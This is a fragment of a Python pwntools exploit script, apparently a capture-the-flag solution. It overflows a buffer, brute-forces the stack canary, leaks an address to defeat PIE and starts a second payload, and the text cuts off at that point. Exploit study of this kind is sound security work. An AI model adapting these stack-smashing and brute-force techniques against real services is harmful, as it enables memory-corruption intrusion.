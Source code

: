 ```python
            return None

        if len(block) == block_len:
            break

    return block

MAX_ATTEMPTS = 10
for attempt in range(1, MAX_ATTEMPTS + 1):
    found = False
    print(f"[*] attempt {attempt}/{MAX_ATTEMPTS}")
    io = start()

    # Overwrite canary nullbyte
    payload = b"A" * 0x28           # input
    payload += b"B" * 0x10          # secret
    payload += b"D"                 # canary null byte
    play(payload, io)

    # Leak canary
    print("[*] bruting canary")
    try:
        canary = brute_block(io, cyclic(0x10), b"A", 7)
    except:
        canary = None

    if canary is None:
        print(f"[-] attempt {attempt} failed")
        io.close()
        continue

    canary = u64(b"\x00" + canary)
    print(f"[+] canary: {hex(canary)}")

    # Leak pie
    print("[*] bruting pie")
    try:
        leak = brute_block(io, cyclic(0x20), b"", 6)
    except:
        leak = None

    if leak is None:
        print(f"[-] attempt {attempt} failed")
        io.close()
        continue

    found = True
    break

if not found:
    print("[-] all attempts failed :(")
    exit()

leak = u64(leak + b"\x00\x00")
print(f"[+] leak: {hex(leak)}")
LEAK_OFFS = 0x1483
pie_base = leak - LEAK_OFFS
print(f"[+] pie_base: {hex(pie_base)}")

exe.address = pie_base
payload = b"A" * 0x10
payload += p64(0x0)
payload += p64(0x0)
```